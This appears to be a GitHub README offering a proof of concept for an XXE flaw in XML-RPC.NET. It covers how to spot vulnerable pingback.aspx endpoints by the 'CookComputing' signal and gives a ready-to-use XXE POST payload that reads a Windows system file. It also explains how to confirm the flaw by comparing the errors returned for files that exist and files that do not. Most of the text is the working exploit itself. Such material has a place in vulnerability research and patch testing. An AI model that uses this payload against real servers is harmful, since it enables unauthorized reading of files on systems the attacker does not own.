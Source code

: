 # xmlrpc.net-poc
Proof of Concept (PoC) for XML-RPC.NET XXE

1. Identify a vulnerable pingback.aspx endpoint. "CookComputing" tends to be a strong signal.

![xmlrpc-xxe-1](https://user-images.githubusercontent.com/3679232/207164709-a158b1c6-3b73-480f-b01b-c33bc1daf2d9.png)

2. Leverage the following XXE POST payload:

<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM  
"file://c:/windows/win.ini">]><foo>&xxe;</foo> 

3. Request a non-existent file on the remote server (e.g. "winFAKE.ini")

![xml-rpc-2](https://user-images.githubusercontent.com/3679232/207166425-19b779e7-88b1-4d63-b128-1e9af49a091a.png)

4. Request an existent file on the remote server (e.g. "win.ini"). Note the error message is different when requesting access to an existing file. This validates our XXE is working as intended.

![xml-rpc-3](https://user-images.githubusercontent.com/3679232/207167024-7338126f-6736-4f14-9a64-b6a0ecc7417e.png)


